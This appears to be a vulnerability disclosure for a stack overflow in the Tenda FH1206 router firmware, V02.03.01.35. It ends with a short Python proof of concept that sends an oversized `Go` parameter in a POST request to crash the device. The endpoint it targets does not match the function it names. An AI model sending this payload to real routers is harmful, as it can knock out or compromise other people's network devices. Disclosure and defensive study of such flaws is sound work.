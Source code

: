 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeUrlFilter.`This function accepts the `Go` parameter from a POST request. The statement ` strcpy(v11,v1);` leads to a buffer overflow. The user-supplied `Go` can exceed the capacity of the `v11` array, thus triggering this security vulnerability.

![image-20240802174245240](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802174245240.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeMacFilter"
payload = b"a"*1000

data = {"Go": payload, "menufacturer":"tenda"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)